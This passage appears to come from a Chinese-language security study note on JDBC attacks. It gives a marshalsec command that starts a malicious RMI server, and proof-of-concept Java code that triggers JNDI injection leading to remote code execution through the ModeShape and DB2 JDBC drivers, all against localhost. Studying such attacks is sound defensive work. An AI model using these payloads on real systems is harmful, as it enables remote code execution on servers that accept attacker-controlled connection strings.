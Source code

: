 起一个恶意的RMI服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8088/#exp
```

poc

```
package JDBCAttack;

import java.sql.DriverManager;

public class testmodeshape {
    public static void main(String[] args) throws Exception {
        Class.forName("org.modeshape.jdbc.LocalJcrDriver");
        DriverManager.getConnection("jdbc:jcr:jndi:rmi://127.0.0.1:1099/exp");
    }
}
```

![image-20221208185853237](images/59.png)

## DB2

```
<dependency>
    <groupId>com.ibm.db2</groupId>
    <artifactId>jcc</artifactId>
    <version>11.5.7.0</version>
</dependency>
```

这个数据库的攻击也是通过JNDI注入实现的

```
package JDBCAttack;

import java.sql.DriverManager;

public class TestDB2 {
    public static void main(String[] args) throws Exception{
        Class.forName("com.ibm.db2.jcc.DB2Driver");
        DriverManager.getConnection("jdbc:db2://127.0.0.1:50001/BLUDB:clientRerouteServerListJNDIName=rmi://127.0.0.1:1099/exp;");
    }
}
```

![image-20221208191047156](images/60.png)



## H2 RCE
